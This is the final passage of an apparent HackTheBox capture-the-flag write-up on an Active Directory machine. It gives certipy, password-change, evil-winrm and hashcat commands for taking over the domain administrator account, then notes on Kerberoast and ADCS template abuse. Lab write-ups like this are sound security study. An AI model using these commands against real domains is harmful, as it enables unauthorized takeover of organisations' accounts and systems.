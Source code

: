 ### Admin shell with cert (LDAP shell):

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb -ldap-shell
```

- Change password for domain admin:
```
change_password administrator NoSecHere
```

---

## Root shell & root.txt

```
evil-winrm -i 10.10.11.72 -u administrator -p NoSecHere
```

- **Root flag:** C:\Users\Administrator\Desktop\root.txt

---

# Notes / Casual Observations

- After the Kerberoast chain, it was great how almost every step allowed instant group abuse
- Random issues with certipy versions – classic chain only worked after `pip install certipy==1.2.0`
- AD object recovery and enabling was a nice workflow – most CTFs don’t have this
- **ADCS UPN chain**: even a “bad” template can lead to full admin if you use the policy OID smartly!
- Before root, if you have to reboot the HTB machine, **write down every hash/password immediately!**

---

# Lessons Learned

- AD privilege chain: if you can go through group abuses after the initial foothold, almost any user can become DA
- From Kerberoast to ADCS, you can pull off the entire chain with open source tools
- pip-installed certipy, gMSADumper, bloodyAD – all are gold
- Try from multiple environments if your workflow breaks!
- On HTB machines, **the chain matters, not just individual exploits!**

---

# Cheat Sheet

## Cracking Kerberoast hash
```
hashcat -m 13100 hashfile /usr/share/wordlists/rockyou.txt
```
